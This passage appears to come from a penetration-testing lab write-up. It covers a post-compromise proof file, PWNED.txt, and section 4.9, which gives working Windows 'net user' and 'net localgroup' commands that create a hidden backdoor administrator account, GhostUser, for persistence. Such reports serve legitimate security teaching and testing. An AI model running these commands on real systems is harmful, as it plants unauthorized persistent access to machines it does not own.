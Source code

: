 ![Reverse Shell Access](images/reverse-shell.PNG)

### 4.8 Creating a Text File (Proof of System Compromise)

To demonstrate **full read/write/execute control** over the compromised system, I created a new text file named `PWNED.txt` on the Administrator's Desktop containing a custom message. This action proved total dominance over the system and the ability to manipulate files at will.

### 4.9 Creating a Hidden Administrator Account

After gaining complete system control, I created a **persistent hidden admin account** to maintain future accessa common adversary technique.
```bash
net user GhostUser P@ssw0rd123 /add
net localgroup Administrators GhostUser /add
```
- `net user GhostUser P@ssw0rd123 /add`: Created a new user named **GhostUser** with password `P@ssw0rd123`.
- `net localgroup Administrators GhostUser /add`: Added **GhostUser** to the **Administrators** group, granting full privileges.
Successfully established a **backdoor administrative user** for persistent access.
